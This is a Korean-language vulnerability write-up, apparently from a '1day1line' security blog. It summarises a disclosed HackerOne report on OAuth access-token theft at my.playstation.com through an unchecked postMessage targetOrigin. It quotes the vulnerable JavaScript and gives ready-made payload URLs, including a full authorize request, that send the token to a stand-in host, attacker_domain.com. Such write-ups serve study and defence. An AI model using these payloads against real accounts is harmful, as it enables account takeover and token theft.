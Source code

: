 ```yaml
---
title: "[하루한줄] Access token stealing in playstation"
author: L0ch
tags: [L0ch,  access token stealing, playstation, javascript]
categories: [1day1line]
date: 2020-11-24 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[Access token stealing in playstation](https://hackerone.com/reports/821896)

## Target

https://my.playstation.com

## Explain

콘솔 게임기기인 PlayStation의 커뮤니티 https://my.playstation.com/auth/response.html에서 로그인된 사용자의 Access Token을 탈취할 수 있는 취약점이 발견되었습니다.

https://my.playstation.com/auth/response.html?requestID=iframe_request_ca8b5107-9b8f-4510-9667-15fd7b9327d1&baseUrl=/&targetOrigin=https://my.playstation.com 페이지는 발급 서버에서 클라이언트로 OAuth 액세스 토큰을 전송하는 자바스크립트를 호스팅 합니다.

```jsx
function parseResponse(a) {
    var b = a.hash.substr(1),
        c = a.search.substr(1),
        d = b + "&" + c,
        e = convertToObject(d);
    return e.refererURL = a.toString(), e
}
....

function sendResponseToApp(a) {
    var b = extractFrameTypeFromRequestID(a.requestID),
        c = a.targetOrigin || getOrigin(),
        d = a.baseUrl || "",
        e = a.returnRoute || "",
        f = a.excludeQueryParams,
        g = !f && window.location.search || "";
    switch (b) {
...
        case "window":
            window.opener.postMessage(a, c);
            break;
...
    }
}

var response = parseResponse(window.location);
sendResponseToApp(response);
```

호스팅된 위 자바스크립트에서 아래 과정을 통해 access token을 해커의 서버로 전송할 수 있습니다.

1. request query를 `parseResponse()` 함수에서 파싱 한 뒤  `sendResponseToApp()` 의 매개변수로 전달해 호출합니다.
2. query 중 `reqeustID` 필드 값이 "window" 면 `window.opener.postMessage()`를 호출합니다.
3. `window.opener.postMessage()` 는 첫 번째 매개변수를 두 번째 매개변수인 특정 도메인으로 전달할 수 있습니다. 매개변수로 query와 `targetOrigin` 필드 값이 전달되면 `targetOrigin` 도메인으로 query에 포함되어 있는 Access Token을 전송할 수 있습니다.



이를 이용한 최종 페이로드는 다음과 같습니다.

```jsx
https://my.playstation.com/auth/response.html?requestID=window_request_ca8b5107-9b8f-4510-9667-15fd7b9327d1&baseUrl=/&targetOrigin=https://attacker_domain.com 
```

위 페이로드를 OAuth 발급 서버 request query의 `redirect_uri` 필드 값으로 보내면 Access Token을 탈취할 수 있습니다.

```jsx
https://auth.api.sonyentertainmentnetwork.com/2.0/oauth/authorize?response_type=token&scope=capone:report_submission,kamaji:game_list,kamaji:get_account_hash,user:account.get,user:account.profile.get,kamaji:social_get_graph,kamaji:ugc:distributor,user:account.identityMapper,kamaji:music_views,kamaji:activity_feed_get_feed_privacy,kamaji:activity_feed_get_news_feed,kamaji:activity_feed_submit_feed_story,kamaji:activity_feed_internal_feed_submit_story,kamaji:account_link_token_web,kamaji:ugc:distributor_web,kamaji:url_preview&client_id=656ace0b-d627-47e6-915c-13b259cd06b2&redirect_uri=https://my.playstation.com/auth/response.html?requestID=window_request_ca8b5107-9b8f-4510-9667-15fd7b9327d1&baseUrl=/&targetOrigin=https://attacker_domain.com/&prompt=non
```

